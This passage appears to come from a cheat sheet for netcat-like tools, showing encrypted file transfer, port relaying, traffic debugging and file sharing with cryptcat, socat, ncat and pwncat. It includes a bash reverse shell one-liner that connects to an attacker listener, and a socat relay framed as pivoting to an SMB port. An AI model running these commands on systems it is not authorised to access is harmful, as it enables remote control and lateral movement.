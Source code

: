 **Client**:
```bash
cryptcat <IP> 4444 -k "secretkey"
```

### Encrypted File Transfer
**Receiver**:
```bash
cryptcat -lvp 4444 -k "secretkey" > file.enc
```

**Sender**:
```bash
cryptcat <IP> 4444 -k "secretkey" < file.txt
```

---

## Common Use Cases

### 1. Reverse Shell Handling
```bash
# Attacker (all tools):
<tool> -lvnp 4444

# Target (typical bash reverse shell):
bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'
```

### 2. Pivoting
```bash
# Create relay between two hosts
socat TCP-LISTEN:4455,fork TCP:192.168.2.100:445
```

### 3. Debugging Services
```bash
# Watch raw HTTP traffic
ncat -lvnp 8080 --hex-dump traffic.log
```

### 4. Quick File Sharing
```bash
# Sender
tar czf - /path/to/files | pwncat -lp 4444 --ssl

# Receiver
pwncat <IP> 4444 --ssl | tar xzf -
```

---

## Security Considerations
